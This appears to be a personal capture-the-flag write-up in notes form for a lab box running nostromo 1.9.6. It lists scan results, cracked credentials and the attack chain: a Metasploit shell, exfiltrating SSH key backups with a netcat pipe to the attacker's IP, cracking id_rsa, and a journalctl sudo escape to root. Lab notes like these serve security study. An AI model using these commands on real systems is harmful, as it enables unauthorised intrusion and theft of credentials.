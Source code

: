 | HOST         | PORT | PROTO | SERVICE  | VERSION                 |
| ------------ | ---- | ----- | -------- | ----------------------- |
| 10.10.10.165 | 22   | tcp   | OpenSSH  | 7.9p1 Debian 10+deb10u1 |
| 10.10.10.165 | 80   | tcp   | nostromo | 1.9.6                   |


## HEADERS
---
HTTP/1.1 200 OK
Date: Sat, 08 Jul 2023 18:03:10 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html

---

## DIRECTORIES
---

---

## USERS
---
* david Nowonly4me `$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/` (htpasswd) hunter (ssh passphrase)
* 

---

## NOTES
---
* Nostromo metasploit to get shell
* ssh backup file in `/home/david/public_www/protected-file-area`
* `nc -nvlp 2222 > backup-ssh-identity-files.tgz` on host and `cat backup-ssh-identity-files.tgz | nc 10.10.14.9 2222` on target to transfer the files
* crack id_rsa
* `server-stats.sh` contains `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat`
* journalctl gtfobin
* `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` then `!/bin/bash`
* 
---
